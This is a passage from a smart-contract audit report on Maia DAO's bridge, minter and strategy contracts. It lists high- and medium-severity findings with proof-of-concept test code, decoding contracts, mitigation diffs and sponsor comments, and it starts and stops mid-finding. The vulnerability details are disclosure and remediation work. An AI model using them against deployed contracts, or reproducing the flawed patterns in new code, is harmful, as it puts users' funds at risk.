The problem is, according to how the `anycall` protocol works, it is completely feasible that the execution in the root bridge completes successfully, but the `fallback` in the branch might still fail to execute.

     uint256 internal constant MIN_FALLBACK_RESERVE = 185_000; // 100_000 for anycall + 85_000 fallback execution overhead

For example, the `anycall` to the root bridge might succeed due to enough gas stipend, while the `fallback` execution fails due to a low gas stipend.

If this is the case, then the deposit nonce would be stored in the `executionHistory` during the initial call, so when the `retrievedeposit` call is made, it would think that the transaction is already completed, which would trigger this block instead:

                   _forceRevert();
                //Return true to avoid triggering anyFallback in case of `_forceRevert()` failure
                return (true, "already executed tx");

The impact of this, is that if the deposit transaction is recorded in the root side as completed. A user will never be able to use the `retrievedeposit` function to redeem their deposit from the system.

### Proof of Concept

```

     function testRetrieveDeposit() public {
        //Set up
        testAddLocalTokenArbitrum();

        //Prepare data
        bytes memory packedData;

        {
            Multicall2.Call[] memory calls = new Multicall2.Call[](1);

            //Mock action
            calls[0] = Multicall2.Call({target: 0x0000000000000000000000000000000000000000, callData:   ""});

            //Output Params
            OutputParams memory outputParams = OutputParams(address(this), newAvaxAssetGlobalAddress, 150 ether, 0);

            //RLP Encode Calldata Call with no gas to bridge out and we top up.
            bytes memory data = abi.encode(calls, outputParams, ftmChainId);

            //Pack FuncId
            packedData = abi.encodePacked(bytes1(0x02), data);
        }

        address _user = address(this);

        //Get some gas.
        hevm.deal(_user, 100 ether);
        hevm.deal(address(ftmPort), 1 ether);

        //assure there is enough balance for mock action
        hevm.prank(address(rootPort));
        ERC20hTokenRoot(newAvaxAssetGlobalAddress).mint(address(rootPort), 50 ether, rootChainId);
        hevm.prank(address(avaxPort));
        ERC20hTokenBranch(avaxMockAssethToken).mint(_user, 50 ether);

        //Mint Underlying Token.
        avaxMockAssetToken.mint(_user, 100 ether);

        //Prepare deposit info
                //Prepare deposit info
        DepositParams memory depositParams = DepositParams({
            hToken: address(avaxMockAssethToken),
            token: address(avaxMockAssetToken),
            amount: 150 ether,
            deposit: 100 ether,
            toChain: ftmChainId,
            depositNonce: 1,
            depositedGas: 1 ether
        });

        DepositInput memory depositInput = DepositInput({
            hToken: address(avaxMockAssethToken),
            token: address(avaxMockAssetToken),
            amount: 150 ether,
            deposit: 100 ether,
            toChain: ftmChainId
        });

        // Encode AnyFallback message
        bytes memory anyFallbackData = abi.encodePacked(
            bytes1(0x01),
            depositParams.depositNonce,
            depositParams.hToken,
            depositParams.token,
            depositParams.amount,
            depositParams.deposit,
            depositParams.toChain,
            bytes("testdata"),
            depositParams.depositedGas,
            depositParams.depositedGas / 2
        );

        console2.log("BALANCE BEFORE:");
        console2.log("User avaxMockAssetToken Balance:", MockERC20(avaxMockAssetToken).balanceOf(_user));
        console2.log("User avaxMockAssethToken Balance:",  MockERC20(avaxMockAssethToken).balanceOf(_user));

        require(avaxMockAssetToken.balanceOf(address(avaxPort)) == 0, "balance of port is not zero");

        //Call Deposit function
        avaxMockAssetToken.approve(address(avaxPort), 100 ether);
        ERC20hTokenRoot(avaxMockAssethToken).approve(address(avaxPort), 50 ether);
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 50 ether}(packedData, depositInput, 0.5 ether);
    ;
        

        avaxMulticallBridgeAgent.retrieveDeposit{value: 1 ether}(depositParams.depositNonce);


        // fallback is not triggered.

        // @audit Redeem Deposit, will fail with   DepositRedeemUnavailable()
        avaxMulticallBridgeAgent.redeemDeposit(depositParams.depositNonce);

    }
```

### Recommended Mitigation Steps

Make the root bridge return `(false, "")`, regardless of whether the transaction linked to the original deposit was completed or not.

     /// DEPOSIT FLAG: 8 (retrieveDeposit)
    else if (flag == 0x08) {
            (success, result) = (false, "");

To avoid also spamming the usage of the `retrievedeposit` function, it is advisable to add a check in the `retrieveDeposit` function to see whether the deposit still exists. It doesn't make sense to try and retrieve a deposit that has already been redeemed.


        function retrieveDeposit(uint32 _depositNonce) external payable lock requiresFallbackGas {
        address depositOwner = getDeposit[_depositNonce].owner;
        
        if (depositOwner == address(0)) {
            revert RetrieveDepositUnavailable();
        }

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/183#issuecomment-1632499346):**
 > This is true, but the mitigation would introduce a race condition allowing users to redeem and retry the same deposit. As such, we will introduce a `redemptionHistory` in the root, allowing deposits with redemption and execution set to true to be re-retrieved for `fallback` but not executed again in the root.  

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/183#issuecomment-1641035037):**
 > For further context, the issue that is being described is that in some cases a retrieve may fail on the branch, due to a lack of gas for branch execution. At that point, the deposit the would have been given has been executed in the root blocking re-retrieval of said deposit.
 >
> Calling `retryDeposit` should only be allowed until the first successful `anyFallback` is triggered and `retrieveDeposit` should always be callable. 
>
> In addition, in your example when executing the initial request that fails, we should always set the `executionHistory` to true since a `fallback` will be in fact triggered (avoids double spending). But we should also set the deposit as retrievable, via a mapping (or save a uint8 instead of bool for deposit state). And when running `anyExecute` in Root for a deposit retrieval, we simply check if the deposit is retrievable; meaning the deposit has never run successfully without triggering `anyFallback`.
>
> In short, the retry, retrieve and redeem pattern works as expected. But in order to accommodate for off-cases like the one described in this issue, `retrieveDeposit` should be callable indefinite times for a deposit that never executed successfully in the root, since whenever the deposit is redeemed from the branch it will be deleted.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/183#issuecomment-1709936929):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/183-492-688-869).

***

## [[H-32] Incorrectly reading the offset from the received data parameter to get the `depositNonce` in the `BranchBridgeAgent::anyFallback()` function](https://github.com/code-423n4/2023-05-maia-findings/issues/169)
*Submitted by [0xStalin](https://github.com/code-423n4/2023-05-maia-findings/issues/169)*

Not reading the correct offset where the `depositNonce` is located can lead to setting the status of the wrong deposit to "Failed" when the [`_clearDeposit() function`](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L988-L996) is called.

The consequences of setting the incorrect `depositNonce` to False can be:
- The deposits are getting stuck from the real `depositNonce` that is sent to the `anyFallback()` because that `depositNonce` won't be marked as "Failed".
- Causing troubles to other `depositNonces` that should not be marked as "Failed".

### Proof of Concept

The structure of the data was encoded depending on the type of operation. That means, the `depositNonce` will be located at a different offset depending on the flag. To see where exactly the `depositNonce` is located, it is required to check the corresponding operation where the data was packed. Depending on the type of operation (flag), it will be the function we'll need to analyze to determine the correct offset where the `depositNonce` was packed.

Let's analyze the encoded data, flag by flag, to determine the correct offset of the `depositNonce` for each flag:

1. **`flag == 0x00`** - When [encoding the data for the flag 0x00](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L480-L481), we can see that the `depositNonce` is located at the `data[1:5]`.

```solidity
bytes memory packedData =
          abi.encodePacked(bytes1(0x00), depositNonce, _params, gasToBridgeOut, _remoteExecutionGas);

// data[0]    ==> flag === 0x00
// data[1:5]  ==> depositNonce
```

2. **`flag == 0x01`** - When [encoding the data for the flag 0x01](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L656-L657), we can see that the `depositNonce` is located at the `data[1:5]`.

```solidity
bytes memory packedData =
        abi.encodePacked(bytes1(0x01), depositNonce, _params, _gasToBridgeOut, _remoteExecutionGas);

// data[0]    ==> flag === 0x01
// data[1:5]  ==> depositNonce
```

3. **`flag == 0x02`**- When [encoding the data for the flag 0x02](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L680-L692), we can see that the `depositNonce` is located at the `data[1:5]`.

```solidity
bytes memory packedData = abi.encodePacked(
    bytes1(0x02),
    depositNonce,
    _dParams.hToken,
    _dParams.token,
    _dParams.amount,
    _normalizeDecimals(_dParams.deposit, ERC20(_dParams.token).decimals()),
    _dParams.toChain,
    _params,
    _gasToBridgeOut,
    _remoteExecutionGas
);

// data[0]    ==> flag === 0x02
// data[1:5]  ==> depositNonce
```

4.  **`flag == 0x03`** - When [encoding the data for the flag 0x03](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L723-L736), we can see that the `depositNonce` is located at the `data[2:6]`.

```solidity
bytes memory packedData = abi.encodePacked(
    bytes1(0x03),
    uint8(_dParams.hTokens.length),
    depositNonce,
    _dParams.hTokens,
    _dParams.tokens,
    _dParams.amounts,
    deposits,
    _dParams.toChain,
    _params,
    _gasToBridgeOut,
    _remoteExecutionGas
);

// data[0]    ==> flag === 0x03
// data[1]    ==> hTones.length
// data[2:6]  ==> depositNonce
```

5. **`flag == 0x04`**- When [encoding the data for the flag 0x04](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L225-L228), we can see that the `depositNonce` is located at the `data[21:25]`.

```solidity
bytes memory packedData = abi.encodePacked(
    bytes1(0x04), msg.sender, depositNonce, _params, msg.value.toUint128(), _remoteExecutionGas
);

// data[0]    ==> flag === 0x04
// data[1:21] ==> msg.sender
// data[21:25]  ==> depositNonce
```

6. **`flag == 0x05`** - When [encoding the data for the flag 0x05](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L244-L257), we can see that the `depositNonce` is located at the `data[21:25]`.

```solidity
bytes memory packedData = abi.encodePacked(
    bytes1(0x05),
    msg.sender,
    depositNonce,
    _dParams.hToken,
    _dParams.token,
    _dParams.amount,
    _normalizeDecimals(_dParams.deposit, ERC20(_dParams.token).decimals()),
    _dParams.toChain,
    _params,
    msg.value.toUint128(),
    _remoteExecutionGas
);

// data[0]    ==> flag === 0x05
// data[1:21] ==> msg.sender
// data[21:25]  ==> depositNonce
```

7. **`flag == 0x06`** - When [encoding the data for the flag 0x06](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L287-L301), we can see that the `depositNonce` is located at the `data[22:26]`.

```solidity
bytes memory packedData = abi.encodePacked(
    bytes1(0x06),
    msg.sender,
    uint8(_dParams.hTokens.length),
    depositNonce,
    _dParams.hTokens,
    _dParams.tokens,
    _dParams.amounts,
    _deposits,
    _dParams.toChain,
    _params,
    msg.value.toUint128(),
    _remoteExecutionGas
);

// data[0]     ==> flag === 0x06
// data[1:21]  ==> msg.sender
// data[21]    ==> hTokens.length
// data[22:26] ==> depositNonce
```

At this point now, we know the exact offset where the `depositNonce` is located at for all the possible deposit options. Now, it is time to analyze the offsets that are been read, depending on the flag in the `anyFallback()` and validate that the correct offset is been read.

1. For `flags 0x00, 0x01 and 0x02`, the `depositNonce` is been read from the offset `data[PARAMS_START:PARAMS_TKN_START]`, which is the same as `data[1:5]` ([PARAMS_START == 1](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L68) and [PARAMS_TKN_START == 5](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L78)). These 3 flags read the `depositNonce` correctly.

2. For `flag 0x03`, the `depositNonce` is been read from the offset `data[PARAMS_START + PARAMS_START:PARAMS_TKN_START + PARAMS_START]`, which is the same as `data[2:6]` ([PARAMS_START == 1](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L68) and [PARAMS_TKN_START == 5](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L78)). This flag also reads the `depositNonce` correctly.

3. For `flag 0x04 and 0x05`, the `depositNonce` is been read from the offset `data[PARAMS_START_SIGNED:PARAMS_START_SIGNED + PARAMS_TKN_START]`, which is the same as `data[21:26]` ([PARAMS_START_SIGNED == 21](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L70) and [PARAMS_TKN_START == 5](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L78)). These flags are reading the `depositNonce` INCORRECTLY.

From the above analysis to detect where the `depositNonce` is located at, for `flags 0x04 and 0x05`, the `depositNonce` is located at the offset `data[21:25]`.

The PoC below demonstrates the correct offset of the `depositNonce` when data is encoded similar to how `flags 0x04 and 0x05` encodes it (see the above analysis for more details).

- Call the `generateData()` function and copy+paste the generated bytes on the rest of the functions.
- Notice how the `readNonce()` returns the correct value of the nonce and is reading the offset `data[21:25]`:

```solidity
pragma solidity 0.8.18;

contract offset {
    uint32 nonce = 3;

    function generateData() external view returns (bytes memory) {
        bytes memory packedData = abi.encodePacked(
            bytes1(0x01),
            msg.sender,
            nonce
        );
        return packedData;
    }

    function readFlag(bytes calldata data) external view returns(bytes1) {
        return data[0];
    }

    function readMsgSender(bytes calldata data) external view returns (address) {
        return address(uint160(bytes20(data[1:21])));
    }

    function readNonce(bytes calldata data) external view returns (uint32) {
        return uint32(
            bytes4(data[21:25])
        );
    }   

}
```

4. For `flag 0x06`, the `depositNonce` is been read from the offset `data[PARAMS_START_SIGNED + PARAMS_START:PARAMS_START_SIGNED + PARAMS_TKN_START + PARAMS_START]`, which is the same as `data[22:27]` ([PARAMS_START_SIGNED == 21](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L70), [PARAMS_START == 1](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L68) and [PARAMS_TKN_START == 5](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L78)). This flag is also reading the `depositNonce` INCORRECTLY.

From the above analysis to detect where the `depositNonce` is located at, for `flag 0x06`, the `depositNonce` is located at the offset `data[22:26]`.

The PoC below demonstrates the correct offset of the `depositNonce` when data is encoded similar to how `flag 0x06` encodes it (see the above analysis for more details).

- Call the `generateData()` function and copy+paste the generated bytes on the rest of the functions.
- Notice how the `readNonce()` returns the correct value of the nonce and is reading the offset `data[22:26]`:

```solidity
pragma solidity 0.8.18;

contract offset {
    uint32 nonce = 3;

    function generateData() external view returns (bytes memory) {
        bytes memory packedData = abi.encodePacked(
            bytes1(0x01),
            msg.sender,
            uint8(1),
            nonce
        );
        return packedData;
    }

    function readFlag(bytes calldata data) external view returns(bytes1) {
        return data[0];
    }

    function readMsgSender(bytes calldata data) external view returns (address) {
        return address(uint160(bytes20(data[1:21])));
    }

    function readThirdParameter(bytes calldata data) external view returns(uint8) {
        return uint8(bytes1(data[21]));
    }

    function readNonce(bytes calldata data) external view returns (uint32) {
        return uint32(
            bytes4(data[22:26])
        );
    }

}
```

### Recommended Mitigation Steps

Make sure to read the `depositNonce` from the correct offset. Depending on the flag, it will be the offset where `depositNonce` is located at:

For `flags 0x04 & 0x05`, read the offset as follows, either of the two options are correct:
- `depositNonce` is located at: `data[21:25]`

```solidity
_depositNonce = uint32(bytes4(data[PARAMS_START_SIGNED : PARAMS_START_SIGNED]));
_depositNonce = uint32(bytes4(data[21:25]));
```

For `flag 0x06`, read the offset as follows, either of the two options are correct:
- `depositNonce` is located at: `data[22:26]`

```solidity
_depositNonce = uint32(bytes4(data[PARAMS_START_SIGNED + PARAMS_START : PARAMS_START_SIGNED + PARAMS_TKN_START]));
_depositNonce = uint32(bytes4(data[22:26]));
```

### Assessed type

en/de-code

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/169#issuecomment-1632452314)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/169#issuecomment-1709930063):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/commit/e0b8a72f3dcc850cf8373f8c6bb851c3083ed2a1).

***

## [[H-33] `BaseV2Minter` DAO reward shares are calculated wrong](https://github.com/code-423n4/2023-05-maia-findings/issues/104)
*Submitted by [ABA](https://github.com/code-423n4/2023-05-maia-findings/issues/104)*

In `BaseV2Minter`, when calculating the DAO shares out of the weekly emissions, the current implementation wrongly takes into consideration the extra `bHERMES` growth tokens (to the locked); thus, is allocating a larger value than intended. This also has an indirect effect on the increasing protocol inflation if `HERMES` [needs to be minted in order to reach the required token amount](https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/minters/BaseV2Minter.sol#L138-L141).

### Issue details

Token DAO shares (`share` variable) is calculated in `BaseV2Minter::updatePeriod` as such:

<https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/minters/BaseV2Minter.sol#L133-L137>

```Solidity
    uint256 _growth = calculateGrowth(newWeeklyEmission);
    uint256 _required = _growth + newWeeklyEmission;
    /// @dev share of newWeeklyEmission emissions sent to DAO.
    uint256 share = (_required * daoShare) / base;
    _required += share;
```

We actually do see that the original developer intention (confirmed by the sponsor) was that the share value to be calculated is relative to `newWeeklyEmission`, not to (`_required = newWeeklyEmission + _growth`).

```Solidity
    /// @dev share of newWeeklyEmission emissions sent to DAO.
```

Also, it is [documented that DAO shares should be calculated as part of weekly emissions](https://v2-docs.maiadao.io/protocols/Hermes/overview/tokenomics/emissions#dao-emissions):

> Up to 30% of weekly emissions can be allocated to the DAO.

### Proof of Concept

DAO shares value is not calculated relative to `newWeeklyEmission`.

<https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/minters/BaseV2Minter.sol#L134-L136>

### Recommended Mitigation Steps

Change the implementation to reflect intention.

```diff
diff --git a/src/hermes/minters/BaseV2Minter.sol b/src/hermes/minters/BaseV2Minter.sol
index 7d7f013..217a028 100644
--- a/src/hermes/minters/BaseV2Minter.sol
+++ b/src/hermes/minters/BaseV2Minter.sol
@@ -133,7 +133,7 @@ contract BaseV2Minter is Ownable, IBaseV2Minter {
             uint256 _growth = calculateGrowth(newWeeklyEmission);
             uint256 _required = _growth + newWeeklyEmission;
             /// @dev share of newWeeklyEmission emissions sent to DAO.
-            uint256 share = (_required * daoShare) / base;
+            uint256 share = (newWeeklyEmission * daoShare) / base;
             _required += share;
             uint256 _balanceOf = underlying.balanceOf(address(this));
             if (_balanceOf < _required) {

```

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/104#issuecomment-1631529080)**

**[alexxander (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/104#issuecomment-1653408447):**
 > Even though the share is bigger than what it is supposed to be, the extra funds are given to the DAO. There is no clear High impact here, please consider Medium severity.

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/104#issuecomment-1653438430):**
 > Assuming the bug goes unnoticed for some period of time, which is fair, this would cause inflation and decrease value for holders. Therefore, high is justified.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/104#issuecomment-1709946302):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/104-737).

***

## [[H-34] Cross-chain messaging via `Anycall` will fail](https://github.com/code-423n4/2023-05-maia-findings/issues/91)
*Submitted by [ltyu](https://github.com/code-423n4/2023-05-maia-findings/issues/91), also found by [yellowBirdy](https://github.com/code-423n4/2023-05-maia-findings/issues/860), [RED-LOTUS-REACH](https://github.com/code-423n4/2023-05-maia-findings/issues/638), [Koolex](https://github.com/code-423n4/2023-05-maia-findings/issues/603), [BPZ](https://github.com/code-423n4/2023-05-maia-findings/issues/468), and [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/270)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchBridgeAgent.sol#L1006-L1011><br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/lib/AnycallFlags.sol#L11>

### Impact

Cross-chain calls will fail since source-fee is not supplied to `Anycall`.

### Proof of Concept

In `_performCall()` of `BranchBridgeAgent.sol`, a cross-chain call is made using `anyCall()` with the `_flag` of [4](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/lib/AnycallFlags.sol#L11). According to the [Anycall V7 documentation](https://docs.multichain.org/developer-guide/anycall-v7/how-to-integrate-anycall-v7#request-parameters) and [code](https://github.com/anyswap/multichain-smart-contracts/blob/645d0053d22ed63005b9414b5610879094932304/contracts/anycall/v7/AnycallV7Upgradeable.sol#L205-L207), when using gas `_flag` of 4, the gas fee must be paid on the source chain. This means `anyCall()` must be called and sent gas.

However, this is not the case, and the result of `_performCall` will always revert. This will impact many functions that rely on this function; such as `callOut()`, `callOutSigned()`, `retryDeposit()`, etc.

### Recommended Mitigation Steps

After discussing with the Sponsor, it is expected that the fee be paid on the destination chain, specifically `rootBridgeAgent`. Consider refactoring the code to change the `_flag` to use [pay on destination](https://github.com/anyswap/multichain-smart-contracts/blob/645d0053d22ed63005b9414b5610879094932304/contracts/anycall/v7/interfaces/AnycallFlags.sol#L9).

Alternatively, if pay on source is the intention, consider refactoring the code to include fees; starting with `_performCall`. Additional refactoring will be required.

    function _performCall(bytes memory _calldata, uint256 _fee) internal virtual {
        //Sends message to AnycallProxy
        IAnycallProxy(local`AnyCall`Address).anyCall{value: _fee}(
            rootBridgeAgentAddress, _calldata, rootChainId, AnycallFlags.FLAG_ALLOW_FALLBACK, ""
        );
    }

### Assessed type

Library

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/91#issuecomment-1655680315):**
 > We recognize the audit's findings on Anycall. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[H-35] `Rerange`/`rebalance` should not use `protocolFee` as an asset for adding liquidity](https://github.com/code-423n4/2023-05-maia-findings/issues/80)
*Submitted by [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/80), also found by [lukejohn](https://github.com/code-423n4/2023-05-maia-findings/issues/917), [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/734), [said](https://github.com/code-423n4/2023-05-maia-findings/issues/272), [los\_chicos](https://github.com/code-423n4/2023-05-maia-findings/issues/199), [SpicyMeatball](https://github.com/code-423n4/2023-05-maia-findings/issues/158), and [max10afternoon](https://github.com/code-423n4/2023-05-maia-findings/issues/138)*

The account of `protocolFee` is broken because tokens of `protocolFee0` and `protocolFee1` are used while rerange/rebalance are used to add liquidity. At the same time, the variables `protocolFee0` and `protocolFee1` are not updated and the de-facto contract doesn't have `protocolFee` on balance.

### Proof of Concept

Function `rerange` is used both in `rerange` and in `rebalance`:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/talos/strategies/TalosStrategySimple.sol#L30-L46>

```solidity
    function doRerange() internal override returns (uint256 amount0, uint256 amount1) {
        (tickLower, tickUpper, amount0, amount1, tokenId, liquidity) = nonfungiblePositionManager.rerange(
            PoolActions.ActionParams(pool, optimizer, token0, token1, tickSpacing), poolFee
        );
    }

    function doRebalance() internal override returns (uint256 amount0, uint256 amount1) {
        int24 baseThreshold = tickSpacing * optimizer.tickRangeMultiplier();

        PoolActions.ActionParams memory actionParams =
            PoolActions.ActionParams(pool, optimizer, token0, token1, tickSpacing);

        PoolActions.swapToEqualAmounts(actionParams, baseThreshold);

        (tickLower, tickUpper, amount0, amount1, tokenId, liquidity) =
            nonfungiblePositionManager.rerange(actionParams, poolFee);
    }
```

Let's have a look at this function. This function calls `getThisPositionTicks` to get the amounts of `balance0` and `balance1` of tokens to `addLiquidity`:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/talos/libraries/PoolActions.sol#L56-L88>

```solidity
    function rerange(
        INonfungiblePositionManager nonfungiblePositionManager,
        ActionParams memory actionParams,
        uint24 poolFee
    )
        internal
        returns (int24 tickLower, int24 tickUpper, uint256 amount0, uint256 amount1, uint256 tokenId, uint128 liquidity)
    {
        int24 baseThreshold = actionParams.tickSpacing * actionParams.optimizer.tickRangeMultiplier();

        uint256 balance0;
        uint256 balance1;
        (balance0, balance1, tickLower, tickUpper) = getThisPositionTicks(
            actionParams.pool, actionParams.token0, actionParams.token1, baseThreshold, actionParams.tickSpacing
        );
        emit Snapshot(balance0, balance1);

        (tokenId, liquidity, amount0, amount1) = nonfungiblePositionManager.mint(
            INonfungiblePositionManager.MintParams({
                token0: address(actionParams.token0),
                token1: address(actionParams.token1),
                amount0Desired: balance0,
                amount1Desired: balance1,
                ...
            })
        );
    }
```

The mistake is in the function `getThisPositionTicks()` because it returns the actual token balance of the `Strategy` contract:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/talos/libraries/PoolActions.sol#L90-L103>

```solidity
    function getThisPositionTicks(
        IUniswapV3Pool pool,
        ERC20 token0,
        ERC20 token1,
        int24 baseThreshold,
        int24 tickSpacing
    ) private view returns (uint256 balance0, uint256 balance1, int24 tickLower, int24 tickUpper) {
        // Emit snapshot to record balances
        balance0 = token0.balanceOf(address(this));
        balance1 = token1.balanceOf(address(this));

        //Get exact ticks depending on Optimizer's balances
        (tickLower, tickUpper) = pool.getPositionTicks(balance0, balance1, baseThreshold, tickSpacing);
    }
```

This returns the actual balance which consists of 2 parts: `protocolFee` and users' funds. `Rerange` must use users' funds, but not `protocolFee`.

Suppose the following scenario:

1. A user has added 1000 tokens of liquidity.
2. This liquidity generated 100 tokens of fee, 50 of which is `protocolFee`.
3. `Rerange` is called. After removing liquidity contract, they have a 1000 + 100 tokens balance. And the contract adds liquidity of whole balances - 1100 tokens.
4. Function `collectFee` doesn't work because the actual balance is less than the withdrawing amount and the protocol loses profit.

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/talos/base/TalosBaseStrategy.sol#L394-L415>

```solidity
    function collectProtocolFees(uint256 amount0, uint256 amount1) external nonReentrant onlyOwner {
        uint256 _protocolFees0 = protocolFees0;
        uint256 _protocolFees1 = protocolFees1;

        if (amount0 > _protocolFees0) {
            revert Token0AmountIsBiggerThanProtocolFees();
        }
        if (amount1 > _protocolFees1) {
            revert Token1AmountIsBiggerThanProtocolFees();
        }
        ERC20 _token0 = token0;
        ERC20 _token1 = token1;
        uint256 balance0 = _token0.balanceOf(address(this));
        uint256 balance1 = _token1.balanceOf(address(this));
        require(balance0 >= amount0 && balance1 >= amount1);
        if (amount0 > 0) _token0.transfer(msg.sender, amount0);
        if (amount1 > 0) _token1.transfer(msg.sender, amount1);

        protocolFees0 = _protocolFees0 - amount0;
        protocolFees1 = _protocolFees1 - amount1;
        emit RewardPaid(msg.sender, amount0, amount1);
    }
```

### Recommended Mitigation Steps

I suggest using a different address for `protocolFee`. Transfer all `protocolFee` tokens away from this contract to not mix it with users' assets. Create a contract like `ProtocolFeeReceiver.sol` and make a force transfer of tokens when `Strategy` gets fee.

Also a note - that in the forked parent project, `SorbettoFragola`, it is implemented via `burnExactLiquidity`. 

<https://github.com/Popsicle-Finance/SorbettoFragola/blob/9fb31b74f19005d86a78abc758553e7914e7ba49/SorbettoFragola.sol#L458-L483>

### Assessed type

Math

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/80#issuecomment-1631476429)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/80#issuecomment-1709947139):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/80).

***

# Medium Risk Findings (44)
## [[M-01] Although `ERC20Boost.decrementGaugesBoostIndexed` function would require the user to remove all of their boosts from a deprecated gauge at once, such a user can instead call `ERC20Boost.decrementGaugeBoost` function multiple times to utilize such deprecated gauge and decrement its `userGaugeBoost`](https://github.com/code-423n4/2023-05-maia-findings/issues/904)
*Submitted by [rbserver](https://github.com/code-423n4/2023-05-maia-findings/issues/904)*

When the `gauge` input corresponds to a deprecated gauge, calling the `ERC20Boost.decrementGaugeBoost` function can still execute `gaugeState.userGaugeBoost -= boost.toUint128()` if `boost >= gaugeState.userGaugeBoost` is false.

<https://github.com/code-423n4/2023-05-maia/blob/62f4f01a522dcbb4b9abfe2f6783bbb67c0da022/src/erc-20/ERC20Boost.sol#L175-L187>

```solidity
    function decrementGaugeBoost(address gauge, uint256 boost) public {
        GaugeState storage gaugeState = getUserGaugeBoost[msg.sender][gauge];
        if (boost >= gaugeState.userGaugeBoost) {
            _userGauges[msg.sender].remove(gauge);
            delete getUserGaugeBoost[msg.sender][gauge];

            emit Detach(msg.sender, gauge);
        } else {
            gaugeState.userGaugeBoost -= boost.toUint128();

            emit DecrementUserGaugeBoost(msg.sender, gauge, gaugeState.userGaugeBoost);
        }
    }
```

However, for the same deprecated gauge, calling the `ERC20Boost.decrementAllGaugesBoost` and `ERC20Boost.decrementGaugesBoostIndexed` functions would execute `_userGauges[msg.sender].remove(gauge)` and `delete getUserGaugeBoost[msg.sender][gauge]` without executing `gaugeState.userGaugeBoost -= boost.toUint128()` because `_deprecatedGauges.contains(gauge)` is true. Hence, an inconsistency exists between the `ERC20Boost.decrementGaugeBoost` and `ERC20Boost.decrementGaugesBoostIndexed` functions when the corresponding gauge is deprecated. As a result, although the `ERC20Boost.decrementGaugesBoostIndexed` function would require the user to remove all of their boost from a deprecated gauge at once, such user can instead call the `ERC20Boost.decrementGaugeBoost` function multiple times to utilize such deprecated gauge and decrement its `userGaugeBoost` if `boost >= gaugeState.userGaugeBoost` is false each time.

<https://github.com/code-423n4/2023-05-maia/blob/62f4f01a522dcbb4b9abfe2f6783bbb67c0da022/src/erc-20/ERC20Boost.sol#L198-L200>

```solidity
    function decrementAllGaugesBoost(uint256 boost) external {
        decrementGaugesBoostIndexed(boost, 0, _userGauges[msg.sender].length());
    }
```

<https://github.com/code-423n4/2023-05-maia/blob/62f4f01a522dcbb4b9abfe2f6783bbb67c0da022/src/erc-20/ERC20Boost.sol#L203-L227>

```solidity
